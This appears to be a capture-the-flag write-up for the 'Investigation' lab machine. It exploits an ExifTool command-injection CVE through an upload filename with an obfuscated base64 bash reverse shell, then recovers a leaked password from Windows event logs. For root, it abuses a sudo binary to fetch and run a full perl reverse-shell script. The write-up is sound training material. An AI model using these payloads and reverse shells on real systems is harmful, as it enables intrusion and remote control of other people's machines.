

## Introduction

For this machine, we identify a web app using ExifTool to show metadata for images uploaded via a form.  Knowing the version of ExifTool used contains a CVE, we are able to command inject into the form and base64 encode/decode an obfuscated reverse shell to gain a foothold.  From here, we find an email containing an event viewer log we must search through.  We uncover a credential leak where a failed logon attempt shows the user accidentally entered their username in the password field, giving us credentials to SSH into the machine as a real user.  Next, `sudo` indicates a 64-bit ELF binary we are able to run as root.  After copying and disassembling this binary in order to understand its behaviour, we are able to exploit that behaviour to spawn a root shell on the target and get the root flag.

## Enumeration

Let's start with an nmap scan:

```bash
$nmap -sC -sV -o nmap/initial 10.10.11.197
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-10 20:09 AEDT
Nmap scan report for 10.10.11.197
Host is up (0.020s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f1e6306aa6ebbcc0d19d4152674c6d9 (RSA)
|   256 274520add2faa73a8373d97c79abf30b (ECDSA)
|_  256 4245eb916e21020617b2748bc5834fe0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://eforenzics.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: eforenzics.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```

We add `10.10.11.197 eforenzics.htb` to our `/etc/hosts` and get the following page when browsing to this domain:


Clicking 'Go!' takes us to an upload form:


The obvious thing to do is upload this photo of a black cat (..obviously.. what else?), and capture the request in Burp Suite (binary content removed because space..):


The captured request:

```
POST /upload.php HTTP/1.1
Host: eforenzics.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://eforenzics.htb/service.html
Content-Type: multipart/form-data; boundary=---------------------------351195817916335259373921502099
Content-Length: 164057
Origin: http://eforenzics.htb
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------351195817916335259373921502099
Content-Disposition: form-data; name="image"; filename="black_cat.jpg"
Content-Type: image/jpeg

ÿØÿàJFIFquests: 1
```

We are taken to a page with a hyperlink to download a report on our analysed file:


We click the `here` link shown above:

```
GET /analysed_images/blackcatjpg.txt HTTP/1.1
Host: eforenzics.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://eforenzics.htb/upload.php
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

```

This file response contains:

```
ExifTool Version Number         : 12.37
File Name                       : black_cat.jpg
Directory                       : .
File Size                       : 160 KiB
File Modification Date/Time     : 2023:02:10 09:14:44+00:00
File Access Date/Time           : 2023:02:10 09:14:44+00:00
File Inode Change Date/Time     : 2023:02:10 09:14:44+00:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 300
Y Resolution                    : 300
Image Width                     : 800
Image Height                    : 533
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 800x533
Megapixels                      : 0.426
```

So, the app likelly shells out to [ExifTool](https://exiftool.org/), which is a perl-based library and command line app for reading, writing and editing meta information across image formats.

To speed things up and avoid binary noise of a larger file, let's resize our black cat image to an ultra ultra high definition resolution of 16x10:

```bash
$convert black_cat.jpg -resize 16x10 black_cat_sm.jpg
```

Searching for ExifTool 12.37, the first thing I came across was [CVE-2022-23935](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23935), a command injection vulnerability.

Reading a little more thoroughly to try and understand the CVE, the problematic line in ExifTool appears to be:

```perl
$mode = ($file =~ /\|$/ ? '' : '<') unless $mode;
# snip
return open $fh, "$mode$file";
```

This will, using regex, check if the filename ends in a pipe (`|`). Under normal circumstances, this would **not** be the case, so we would open a file descriptor with `< file`, i.e. piping the file contents into an open file descriptor for reading.

However, if the file **does** end in a pipe, the mode is an empty string, and we open a file descriptor and pass argument `$file`.  The documentation for [open](https://perldoc.perl.org/functions/open) in perl states:

```
Instead of a filename, you may specify an external command (plus an optional argument list) or a scalar reference, in order to open filehandles on commands or in-memory scalars, respectively.
```

So, we can specify an external command here, as long as it ends in a pipe.  Sounds fun.  Let's try out `sleep 20` in our form's `filename` data field, and see if the web server hangs:

```
POST /upload.php HTTP/1.1
Host: eforenzics.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://eforenzics.htb/service.html
Content-Type: multipart/form-data; boundary=---------------------------28894344611500965082477156362
Content-Length: 743
Origin: http://eforenzics.htb
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------28894344611500965082477156362
Content-Disposition: form-data; name="image"; filename="sleep 20 |"
Content-Type: image/jpeg
```

Sure enough, the web server hangs for a good 20 seconds, suggesting we have command injection.  When trying a typical reverse shell like so:

```
filename="bash -i >& /dev/tcp/10.10.14.33/3322 0>&1 |"
```

I noticed the web server response was giving me a link to http://eforenzics.htb/analysed_images/332201.txt  (refer to the port and file descriptors above), so it appeared to be escaping & removing slashes and other characters -- thwarted!.. for now.

 Looking at [bypass-bash-restrictions](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions) on HackTricks, I found a neat base64 trick and came up with:

```bash
$echo "echo $(echo 'bash -i >& /dev/tcp/10.10.14.33/3322 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0ek15OHpNekl5SURBK0pqRUsK|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h
```

What does this do exactly?  It echoes our shell code into `base64` to encode it... TWICE.. then creates a string that takes our double-encoded base64 string, piping it to `base64 -d` twice to decode the string, but the `base64 -d` command is (somewhat) obfuscated with single quotes `'`.  Basically it's "let's do a whole bunch of obfuscating nothings to land on our original string in order to bypass common filtering techniques".

I tried the above in our file submission query in Burp Suite:

```
filename="echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0ek15OHpNekl5SURBK0pqRUsK|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h |"
```

Oh, and `${IFS}` is the Internal Field Seperator environment variable.  Used by bash for delimiting spaces in strings.

Yay, we get a reverse shell as the `www-data` user!!:

```bash
listening on [any] 3322 ...
ls -al
^Tconnect to [10.10.14.33] from (UNKNOWN) [10.10.11.197] 58426
bash: cannot set terminal process group (956): Inappropriate ioctl for device
bash: no job control in this shell
www-data@investigation:~/uploads/1676025012$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's list out the users with a valid shell:

```bash
$ grep -vE "/usr/sbin/nologin|/bin/false" /etc/passwd     
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
smorton:x:1000:1000:eForenzics:/home/smorton:/bin/bash
```

Unfortunately, no read access to `/home/smorton`.  I ran a HTTP server on my own machine with `python -m http.server 8888` and ran a `wget` in the shell to download [pspy](https://github.com/DominicBreuker/pspy), which when run will show what various processes are up to, *without* requiring root by scanning procfs.  When I run pspy, and upload a file through the web app again, I see:

```
2023/02/10 10:47:30 CMD: UID=33   PID=31499  | sh -c cd /var/www/uploads/1676026050 && /opt/exiftool/exiftool * > /var/www/html/analysed_images/blackcatsmjpg.txt 
2023/02/10 10:47:30 CMD: UID=33   PID=31500  | /usr/bin/perl -w /opt/exiftool/exiftool black_cat_sm.jpg 
```

I couldn't see anything interesting that stood out apart from what we've already exploited that gives access to the `www-data` (UID=33) user.  Next, I decided to check which files the only non-root user on the system owns:

```
www-data@investigation:~$ find / -user smorton 2> /dev/null
/home/smorton
/usr/local/investigation/Windows Event Logs for Analysis.msg
www-data@investigation:~$ ls -la '/usr/local/investigation/Windows Event Logs for Analysis.msg'
-rw-rw-r-- 1 smorton smorton 1308160 Oct  1 00:35 '/usr/local/investigation/Windows Event Logs for Analysis.msg'
```

I have read access to this, so ran `python -m http.server 8888` within this directory and then from my own machine `wget "http://10.10.11.197:8888/Windows Event Logs for Analysis.msg"` to grab the file.

According to `file`, this is an Outlook message:

```bash
$file Windows\ Event\ Logs\ for\ Analysis.msg 
Windows Event Logs for Analysis.msg: CDFV2 Microsoft Outlook Message
```

I found this blog on forensics of malicious Outlook emails from within Linux https://blog.joshlemon.com.au/analysing-malicious-email-files-d85d8ff76a91, which involves installing `libemail-outlook-message-perl`and `libemail-sender-perl`, and using the `msgconvert` to convert .msg to plain text .eml file:

```bash
$msgconvert Windows\ Event\ Logs\ for\ Analysis.msg 
$ls -la Windows\ Event\ Logs\ for\ Analysis.*
-rw-r--r-- 1 zara zara 1748972 Feb 11 07:38 'Windows Event Logs for Analysis.eml'
-rw-r--r-- 1 zara zara 1308160 Oct  1 10:35 'Windows Event Logs for Analysis.msg'
```

Once converted, we get:

```
Date: Tue, 16 Sept 2022 00:30:29 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed; boundary=16760614911.Fac8C4.99198
Content-Transfer-Encoding: 7bit
Subject: Windows Event Logs for Analysis
From: Thomas Jones <thomas.jones@eforenzics.htb>
To: Steve Morton <steve.morton@eforenzics.htb>
Thread-Topic: Windows Event Logs for Analysis
Accept-Language: en-US
Content-Language: en-US


--16760614911.Fac8C4.99198
MIME-Version: 1.0
Content-Type: multipart/alternative; boundary=16760614910.E53Dcf5.99198
Content-Transfer-Encoding: 7bit


--16760614910.E53Dcf5.99198
Content-Type: text/plain; charset=ISO-8859-1
Content-Disposition: inline
Content-Transfer-Encoding: 8bit

Hi Steve,

Can you look through these logs to see if our analysts have been logging on to the inspection terminal. I'm concerned that they are moving data on to production without following our data transfer procedures. 

Regards.
Tom

--16760614910.E53Dcf5.99198
Content-Type: application/rtf
Content-Disposition: inline
Content-Transfer-Encoding: base64

e1xydGYxXGFuc2lcYW5zaWNwZzEyNTJcZnJvbXRleHQgXGZiaWRpcyBcZGVmZjB7XGZvbnR0YmwK
<.. snip ..>
```

After searching around, I found `munpack` for unpacking MIME based files from emails, (part of the `mpack` package on Parrot OS) and ran `munpack Windows\ Event\ Logs\ for\ Analysis.eml`, giving me the following:

```bash
$ls -la
total 2964
drwxr-xr-x 1 zara zara     126 Feb 11 07:59  .
drwxr-xr-x 1 zara zara     152 Feb 11 07:59  ..
-rw------- 1 zara zara 1276591 Feb 11 07:59  evtx-logs.zip
-rw------- 1 zara zara     530 Feb 11 07:59  part1
-rw------- 1 zara zara     244 Feb 11 07:59  part1.desc

$unzip evtx-logs.zip 
Archive:  evtx-logs.zip
  inflating: security.evtx
```

I initially installed `libevtx-utils` and ran `evtexport`, which complained the file signature was invalid.  I opened `security.evtx` in a hex editor and checked the signature and other expected bytes against [libevtx/Windows XML Event Log (EVTX).asciidoc at main · libyal/libevtx · GitHub](https://github.com/libyal/libevtx/blob/main/documentation/Windows%20XML%20Event%20Log%20(EVTX).asciidoc), but couldn't see an issue.  I next tried [python-evtx](https://github.com/williballenthin/python-evtx):

```bash
$python ~/.local/bin/evtx_dump.py security.evtx > security.xml
```

Looking in our newly generated XML file, where we see windows security log events, I searched for instances of `smorton`, `password` , `token` expecting a credential leak. 

The email hints at "moving data on to production without following our data transfer procedures". Searching around online for USB related event IDs, we find Event 6416.   We find this in the log, and USB device `USB\VID_0E0F&PID_0002\6&30c5d09c&0&7`

I will save the gory details, but I used `lsusb` and did a `dd if=/dev/usb/002/003 of=/tmp/usb-out` and tried to run PhotoRec, `mount` and otherwise look at the resulting 43 byte file for a signature -- but this was a complete rabbit hole that led nowhere (eek).  I incorrectly assumed there was a USB stick used for 'moving data' that was now plugged into our target -- a rabbit hole.

After a while of looking through the logs and noticing login attempts for both the local machine and to a domain controller, I found this:

```xml
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event"><System><Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}"></Provider>
<EventID Qualifiers="">4776</EventID>
<Version>0</Version>
<Level>0</Level>
<Task>14336</Task>
<Opcode>0</Opcode>
<Keywords>0x8010000000000000</Keywords>
<TimeCreated SystemTime="2022-08-01 19:15:15.374672"></TimeCreated>
<EventRecordID>11373330</EventRecordID>
<Correlation ActivityID="{6a946884-a5bc-0001-d968-946abca5d801}" RelatedActivityID=""></Correlation>
<Execution ProcessID="628" ThreadID="6800"></Execution>
<Channel>Security</Channel>
<Computer>eForenzics-DI</Computer>
<Security UserID=""></Security>
</System>
<EventData><Data Name="PackageName">MICROSOFT_AUTHENTICATION_PACKAGE_V1_0</Data>
<Data Name="TargetUserName">Def@ultf0r3nz!csPa$$</Data>
<Data Name="Workstation">EFORENZICS-DI</Data>
<Data Name="Status">0xc0000064</Data>
</EventData>
</Event>
```

This is a Kerberos auth attempt where the user accidentally entered their password `Def@ultf0r3nz!csPa$$` in the username field.  This took me a good couple of hours to find given the file size.

With that in mind, we are able to SSH in as `smorton` / `Def@ultf0r3nz!csPa$$`, and get the user flag!:

```bash
 $ssh smorton@eforenzics.htb
smorton@eforenzics.htb's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-137-generic x86_64)
Last login: Sat Feb 11 05:39:11 2023 from 10.10.14.33
smorton@investigation:~$ ls -la
-rw-r----- 1 root    smorton   33 Feb 10 05:34 user.txt
smorton@investigation:~$ cat user.txt
87f09a5f3c821e7f67799b2ba89f69f6
```

First, we find an executable we can run as root:

```bash
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

My intuition was to look at this straight way, given the file name was quite unusual, and the output is not very helpful:

```bash
smorton@investigation:~$ sudo /usr/bin/binary
Exiting... 
```

Running `strings /usr/bin/binary` didn't contain anything interesting, so i downloaded a copy of the binary and disassembled it in [Ghidra](https://ghidra-sre.org/).

We can see the following occurs:


A breakdown of the above:

1. We push existing base pointer (RBP) on to the stack with `PUSH RBP`, likely so main can return to libc  (libc is the entry point for ELF binaries into `main()`)
2. Our existing stack pointer becomes the new Base Pointer for our main function with `MOV RBP, RSP`.
3. We subtract 0x50 bytes from the stack pointer with `SUB RSP, 0x50`, which allocates storage on the stack for local variables in the main function (remember the stack grows down to lower memory addresses)
4. We move `EDI`, `RSI` registers into local variables offset from `RBP` (64-bit assembly will pass function arguments in registers, and move these on to the stack by addressing offsets from `RBP`)
5. We compare local variable `[RBP + local_4c]` (argument received by the callee function) with value `0x3` , which will subtract `0x3` from this variable.  If the result is zero, the `JZ LAB_00101462` instruction will jump to this label/address.  Otherwise, we get the `Exiting...` text we see in STDOUT above

Keep in mind `__libc_start_main` will initialise our app and call into `main` as part of the ELF loading & initialization process -- and `main` takes 2 arguments - `argc` (number of arguments) and `argv[]` (array of pointers to the arguments themselves)

We are looking at `argc` here, and checking if it's value is 3.  The number of arguments passed to our application should be 2, as the application name is included itself -- so we expect 2 user arguments + name of app = 3.

Let's look at where the `JZ` instruction will jump to:



1. we call `getuid()` in libc
2. We compare the result in `EAX` register against itself, which will set the zero flag to `ZF=1` if EAX is 0
3. If the zero flag is zero, we `JMP LAB_00101481` -- so we're going to exit the app if not running as root

Continuing on..


1. We take our local variable on the stack for the second argument to main, add `0x10` to it, and then dereference this value storing it in `RAX`
2. we load effective address (`LEA`) of a string pointer into `RSI` and `RAX` is moved into `RDI`, setting up the call to `strcmp`
3. We call out to `strcmp` (also in libc), which will work its magic on comparing arguments in `RDI` and `RSI` (1st and 2nd arguments to function respectively) -- so we're effectively ensuring the address at `param_2 + 0x10` contains the string literal `lDnxUysaQn` 

`param_2` is the pointer to the beginning of `argv[]` array passed into `main`, so we're looking at `0x10` = 16 bytes offset, which is the 3rd argument

Next up:


We dereference and grab the `lDnxUysaQn` string plus `DAT_00102027` which are moved into `RDI` and `RSI`, thus becoming args to `fopen` (so we're opening file with name `lDnxUysaQn` in mode `wb` -- write binary)

So, summarising the rather lengthy 64-bit assembly above, our app will expect 3 arguments (one of which includes itself) in the form `sudo /usr/bin/binary something-here lDnxUysaQn` -- and open file `lDnxUysaQn` for some reason..

At this point, going through raw assembly line by line was becoming tedious, so I decided to run and debug the binary in GDB.  I set breakpoints on calls to [curl_easy_setopt()](https://curl.se/libcurl/c/curl_easy_setopt.html), a function in libcurl -- and our binary calls it three times.

Let's run our app, and breakpoint on each call -- and look at the registers set to determine what arguments are passed to this function:

```
0x00005555555554f9 <+198>:    call   0x555555555130 <curl_easy_setopt@plt>
   0x00005555555554fe <+203>:    movl   $0x2711,-0x34(%rbp)
   0x0000555555555505 <+210>:    mov    -0x34(%rbp),%ecx
   0x0000555555555508 <+213>:    mov    -0x28(%rbp),%rdx
   0x000055555555550c <+217>:    mov    -0x20(%rbp),%rax
   0x0000555555555510 <+221>:    mov    %ecx,%esi
   0x0000555555555512 <+223>:    mov    %rax,%rdi
   0x0000555555555515 <+226>:    mov    $0x0,%eax
   0x000055555555551a <+231>:    call   0x555555555130 <curl_easy_setopt@plt>
   0x000055555555551f <+236>:    movl   $0x2d,-0x30(%rbp)
   0x0000555555555526 <+243>:    mov    -0x30(%rbp),%ecx
   0x0000555555555529 <+246>:    mov    -0x20(%rbp),%rax
   0x000055555555552d <+250>:    mov    $0x1,%edx
   0x0000555555555532 <+255>:    mov    %ecx,%esi
   0x0000555555555534 <+257>:    mov    %rax,%rdi
   0x0000555555555537 <+260>:    mov    $0x0,%eax
   0x000055555555553c <+265>:    call   0x555555555130 <curl_easy_setopt@plt>
   0x0000555555555541 <+270>:    mov    -0x20(%rbp),%rax
   0x0000555555555545 <+274>:    mov    %rax,%rdi
   0x0000555555555548 <+277>:    call   0x555555555170 <curl_easy_perform@plt>
(gdb) break *0x00005555555554f9
Breakpoint 5 at 0x5555555554f9
(gdb) break *0x000055555555551a
Breakpoint 6 at 0x55555555551a
(gdb) break *0x000055555555553c
Breakpoint 7 at 0x55555555553c
(gdb) break *0x0000555555555548
Breakpoint 8 at 0x555555555548
(gdb) r foobarbaz lDnxUysaQn
Starting program: /home/zara/investigation/binary foobarbaz lDnxUysaQn
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Running... 

Breakpoint 5, 0x00005555555554f9 in main ()
(gdb) print $rip
$9 = (void (*)()) 0x5555555554f9 <main+198>
(gdb) x/wx $rdi
0x555555575a10:    0xc0dedbad
(gdb) x/wx $rsi
0x2712:    Cannot access memory at address 0x2712
(gdb) x/s $rdx
0x7fffffffe792:    "foobarbaz"
```

Above I set breakpoints at addresses `0x00005555555554f9`, `0x000055555555551a`, `0x000055555555553c`, and `0x0000555555555548`, then run the executable with `r foobarbaz lDnxUysaQn`, where `foobarbaz lDnxUysaQn` are two arguments passed in.

So, it looks like our first argument to the binary, `foobarbaz` is passed as third arg to function `curl_easy_setopt`, while `0xc0dedbad` (lol) is the handle and `0x2712` is the option:

```
curl_easy_setopt(CURL *handle, CURLoption option, parameter);
```

Searching online, `0x2712` appears to be `CURLOPT_URL` - the option for setting the URL to retrieve!.. So with this in mind, let's re-run locally after deleting all breakpoints, and break on the `system` call that occurs after `curl_easy_perform` -- after ensuring we are running a HTTP server with `python -m http.server 6969`:

```
(gdb) break *0x0000555555555657
Breakpoint 10 at 0x555555555657

(gdb) r http://localhost:6969 lDnxUysaQn
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/zara/investigation/binary http://localhost:6969 lDnxUysaQn
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Running... 

Breakpoint 10, 0x0000555555555657 in main ()

(gdb) x/s $rdi
0x55555555ab30:    "perl ./lDnxUysaQn"
```

So, when we print the first argument (`RDI` register) to the `system` call as a string, it's a command to call the `perl` interpreter on the file we just downloaded.

What does this all mean (the eternal question)?  Assuming we call our binary with `sudo /usr/bin/binary http://myurl:1234/file lDnxUysaQn` , it will use libcurl to download the URL, write it to file `lDnxUysaQn`, and run it against perl.

With all this in mind, we create the following reverse shell in perl locally (taken from pentest monkey):

```perl
#!/usr/bin/perl -w
use strict;
use Socket;
use FileHandle;
use POSIX;
my $VERSION = "1.0";

# Where to send the reverse shell.  Change these.
my $ip = '10.10.14.33';
my $port = 3322;

# Options
my $daemon = 1;
my $auth   = 0; # 0 means authentication is disabled and any 
        # source IP can access the reverse shell
my $authorised_client_pattern = qr(^127\.0\.0\.1$);

# Declarations
my $global_page = "";
my $fake_process_name = "/usr/sbin/apache";

# Change the process name to be less conspicious
$0 = "[httpd]";

# Authenticate based on source IP address if required
if (defined($ENV{'REMOTE_ADDR'})) {
    cgiprint("Browser IP address appears to be: $ENV{'REMOTE_ADDR'}");

    if ($auth) {
        unless ($ENV{'REMOTE_ADDR'} =~ $authorised_client_pattern) {
            cgiprint("ERROR: Your client isn't authorised to view this page");
            cgiexit();
        }
    }
} elsif ($auth) {
    cgiprint("ERROR: Authentication is enabled, but I couldn't determine your IP address.  Denying access");
    cgiexit(0);
}

# Background and dissociate from parent process if required
if ($daemon) {
    my $pid = fork();
    if ($pid) {
        cgiexit(0); # parent exits
    }

    setsid();
    chdir('/');
    umask(0);
}

# Make TCP connection for reverse shell
socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
if (connect(SOCK, sockaddr_in($port,inet_aton($ip)))) {
    cgiprint("Sent reverse shell to $ip:$port");
    cgiprintpage();
} else {
    cgiprint("Couldn't open reverse shell to $ip:$port: $!");
    cgiexit();    
}

# Redirect STDIN, STDOUT and STDERR to the TCP connection
open(STDIN, ">&SOCK");
open(STDOUT,">&SOCK");
open(STDERR,">&SOCK");
$ENV{'HISTFILE'} = '/dev/null';
system("w;uname -a;id;pwd");
exec({"bash"} ($fake_process_name, "-i"));

# Wrapper around print
sub cgiprint {
    my $line = shift;
    $line .= "<p>\n";
    $global_page .= $line;
}

# Wrapper around exit
sub cgiexit {
    cgiprintpage();
    exit 0; # 0 to ensure we don't give a 500 response.
}

# Form HTTP response using all the messages gathered by cgiprint so far
sub cgiprintpage {
    print "Content-Length: " . length($global_page) . "\r
Connection: close\r
Content-Type: text\/html\r\n\r\n" . $global_page;
}
```

We serve it up with `python -m http.server 8888`, and run netcat locally with `nc -lvnp 3322`.  Then, on the target machine, we run:

```bash
smorton@investigation:~$ sudo /usr/bin/binary http://10.10.14.33:8888 lDnxUysaQn
Running... 
Content-Length: 0
Connection: close
Content-Type: text/html
```

And, our reverse shell connects in, allowing us to read the root flag!:

```bash
nc -lvnp 3322
Listening on 0.0.0.0 3322
Connection received on 10.10.11.197 35636
 08:36:19 up 1 day,  3:02,  3 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
smorton  pts/1    10.10.14.54      04:26    3:50m  0.15s  0.15s -bash
smorton  pts/2    10.10.14.33      08:35    1.00s  0.09s  0.09s -bash
smorton  pts/0    10.10.14.33      05:46    1:51m  1.75s  1.63s python3 -m http.server 8888
Linux investigation 5.4.0-137-generic #154-Ubuntu SMP Thu Jan 5 17:03:22 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
uid=0(root) gid=0(root) groups=0(root)
/
apache: cannot set terminal process group (-1): Inappropriate ioctl for device
apache: no job control in this shell
root@investigation:~# cat root    
cat root.txt 
1ea4d12d7c9626e34f5031b7dd21d434
```

And we're done!

## Conclusion

An enjoyable machine combining a little forensics along with reverse engineering an ELF binary in order to understand and use its behaviour to privilege escalate to root.  Finding the password incorrectly entered in the user field (resulting in a credential leak) took considerable time, as here I was searching for known usernames in the username field, and not *other* strings.  Basically, I should have looked for the absence of known/meaningful usernames and instead looked for anomalies -- this meant searching was a little laborious and very much finding a needle in a haystack.  This was my first 'real' attempt at forensics, and I'm sure I have a lot to learn on the topic.

Reversing the binary was fun, if only to practice my skills at understanding how a C app compiles into assembly and subsequently machine code.  When in the mood, I actually find assembly moderately easy to understand despite first appearances.  I think if you understand a few instructions, and how a call stack is established, pointer references and a few basic concepts plus how they differ between 32-bit and 64-bit, the rest flows naturally and isn't too difficult to learn on the fly.

I've been following [LiveOverflow's BinaryExploitation series](https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN) and [pwn.college](https://pwn.college/) (both highly recommended!) to prep myself for binary exploitation -- and this helped quite a lot.

I'm definitely looking forward to diving into more CTFs centered around reversing and binary exploitation very shortly.
